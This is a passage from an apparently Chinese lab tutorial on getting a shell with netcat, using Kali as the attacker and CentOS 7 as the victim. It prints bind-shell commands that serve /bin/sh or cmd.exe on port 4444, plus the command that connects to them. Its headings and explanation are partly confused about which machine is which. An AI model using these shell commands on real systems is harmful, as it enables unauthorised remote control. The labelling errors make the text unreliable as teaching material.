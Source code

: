 ## 2.7. **获取shell**

这里默认kail系统为攻击者、centos7系统为受害者。

### 2.7.1. **正向获取shell**

正向获取shell就是将centos7连接kali，centos7获取kali的shell权限。简单来说就是受害者获取攻击者的shell。

这里不使用Windows测试，只是将Windows系统的命令使用介绍一下。

#### 2.7.1.1. **攻击者**

```
kali命令：nc -lvp 4444 -e /bin/sh 
Windows命令：nc -lvp 4444 -e c:\windows\system32\cmd.exe
```

![img](assets/GWNLdqwpOCRk2AU.jpg) 

#### 2.7.1.2. **攻击者**

```
centos7命令：netcat 192.168.10.20 4444
```

![img](assets/Y4cbl9Zh3LDXifU.jpg) 
